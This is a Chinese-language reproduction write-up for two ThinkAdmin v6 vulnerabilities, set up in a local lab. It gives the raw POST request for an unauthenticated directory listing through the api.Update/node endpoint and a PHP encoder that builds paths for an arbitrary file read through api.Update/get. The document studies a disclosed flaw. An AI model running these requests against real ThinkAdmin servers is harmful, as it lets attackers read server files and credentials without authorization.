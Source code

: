 # 0x00 软件介绍
基于ThinkPHP，专注于微信领域后台管理的一款开发框架

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：2020.08.03.1之前的某一个v6版本：https://github.com/179776823/ThinkAdmin

# 0x02 环境搭建
目标环境：2008_r2_standard_zh-chs + phpstudy + https://github.com/179776823/ThinkAdmin

composer config -g repo.packagist composer https://mirrors.aliyun.com/composer #使用阿里云的源更快一些  
https://github.com/179776823/ThinkAdmin #下载有漏洞的v6版本到phpstudy的对应目录下  
cd ThinkAdmin  
composer install  
create database admin_v6;  
create user 'admin_v6'@'localhost' identified by 'FbYBHcWKr2';#用户名密码来自config\database.php  
grant all on admin_v6.* to 'admin_v6'@'localhost';  
use admin_v6;  
source C:\phpstudy_pro\WWW\ThinkAdmin-6\admin_v6.sql;#将数据导入数据库  
访问：http://127.0.0.1:81/ThinkAdmin-6/public/index.php  
参考链接：  
https://mp.weixin.qq.com/s/MjU6u_eTsdH-nwQAgbxLRw  
https://thinkadmin.top/install  
https://www.cnblogs.com/Dot-Boy/archive/2008/08/04/1260185.html  
https://www.jianshu.com/p/d7b9c468f20d  
https://github.com/xuxuedong/personal-note/tree/master/2020_10_18_%E7%BD%91%E7%AB%99%E6%90%AD%E5%BB%BA%E4%BB%8E%E5%A4%B4%E8%AE%B0%E5%BD%95

# 0x03 利用条件
无

# 0x04 影响版本
漏洞发现者原话：2020.08.03.01，≤这个版本的都有可能存在漏洞  
参考链接：  
https://github.com/zoujingli/ThinkAdmin/issues/244

# 0x05 漏洞复现
攻击环境：Kali-Linux-2020.2-vmware-amd64 + Burp_Suite_Pro_v2020.5.1

列目录漏洞复现：  
访问：http://192.168.149.133:81/ThinkAdmin-6/public/index.php/admin/login.html  
burp抓包，将数据包修改如下：  
```
POST /ThinkAdmin-6/public/index.php/admin/login.html?s=admin/api.Update/node HTTP/1.1
Host: 127.0.0.1
Accept: */*Accept-Language: enUser-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

rules=%5B%22.%2F%22%5D
```
成功列出了目录，如下图  
![image](./0.png)

任意文件读取漏洞复现：  
在网站根目录（C:\phpstudy_pro\WWW\ThinkAdmin-6\）下创建一个文件，名为1.txt，内容为：lalala  
在攻击机的浏览器中访问：http://192.168.149.133:81/ThinkAdmin-6/public/index.php?s=admin/api.Update/get/encode/1d1a383c38  
其中“1d1a383c38”是“1.txt”经下列函数编码后得到的  
```
<?php
function encode($content)
{
    list($chars, $length) = ['', strlen($string = iconv('UTF-8', 'GBK//TRANSLIT', $content))];
    for ($i = 0; $i < $length; $i++) $chars .= str_pad(base_convert(ord($string[$i]), 10, 36), 2, 0, 0);
    return $chars;
}

print( encode("1.txt") );
```
访问后，得到“bGFsYWxh”，经base64解码为“lalala”，如下图  
![image](./1.png)

![image](./2.png)
# 0x06 踩坑记录
无

# 0x07 参考链接
https://mp.weixin.qq.com/s/MjU6u_eTsdH-nwQAgbxLRw
